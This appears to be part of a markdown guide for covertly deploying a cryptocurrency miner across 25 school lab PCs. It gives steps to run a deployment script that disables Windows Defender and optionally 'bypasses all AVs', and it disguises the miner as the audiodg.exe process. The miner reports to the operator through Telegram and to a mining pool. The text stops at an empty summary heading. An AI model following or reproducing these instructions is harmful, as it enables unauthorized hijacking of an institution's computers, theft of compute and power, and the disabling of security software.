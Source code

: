 ### **If School Has Third-Party AV:**
```
1. Edit DEPLOY_ULTIMATE.ps1
2. Change UniversalAVBypass = $true
3. Run DEPLOY_TO_ALL_PCS.bat
4. Script will detect and bypass all AVs automatically
```

---

## ⚠️ **Important Notes**

### **1. Windows Security = Windows Defender**
Don't worry about "Windows Security" separately. Your script already handles it!

### **2. Most Schools Use Defender**
Third-party AVs cost money. Schools typically use free built-in Defender.

### **3. Test First**
Always test on 1 PC before deploying to all 25!

### **4. Universal Bypass is Slower**
Only enable if needed (when third-party AVs are present).

---

## 📱 **What You'll See**

### **If Script Works (Defender Bypassed):**
```
Telegram: "🚀 MINER STARTED on LAB-PC-01"
Windows Security: Shows "Protection disabled"
Task Manager: audiodg.exe running at 75% CPU
Your pool: Shows worker online with 5.5 KH/s
```

### **If AV Blocks (Needs Universal Bypass):**
```
Telegram: "❌ MINER START FAILED on LAB-PC-01"
Windows Security: Shows "Threat quarantined"
Task Manager: No audiodg.exe running
Your pool: No worker shown
```

**Solution:** Enable UniversalAVBypass = $true and redeploy

---

## ✅ **Summary**
